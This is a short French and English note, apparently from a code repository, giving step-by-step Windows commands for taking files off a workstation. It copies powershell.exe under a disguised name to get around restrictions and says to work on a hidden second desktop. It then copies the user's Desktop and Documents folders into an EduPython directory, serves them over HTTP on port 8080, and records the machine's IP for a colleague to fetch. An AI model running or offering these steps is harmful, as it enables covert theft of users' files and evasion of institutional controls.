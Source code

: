 1- Ouvrir un cmd : (Il faut faire cela sur un autre bureau Windows Windows + flèche)

Windows + R : cmd

1.1- Copie du powershell

copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe a.exe

2- Find python (A ne pas faire en réel)

Get-ChildItem -Path C:\ -Filter "python" -Recurse -File 2>$null

2.1- Get into the directory

cd ../../../EduPython/App

2.2- Copy Info from Desktop 

copy %USERPROFILE%\Desktop .
copy %USERPROFILE%\Documents .

3- Execute python server

.\python.exe -m http.server 8080 (prendre photo)

4- Get the IP from the station

ipconfig (envoyer message check)

---

* Il faut faire cela sur un autre bureau Windows 
* Vérifier l'IP de la machine 
* Prendre photos check
* Demandez par message à un collègue si ok
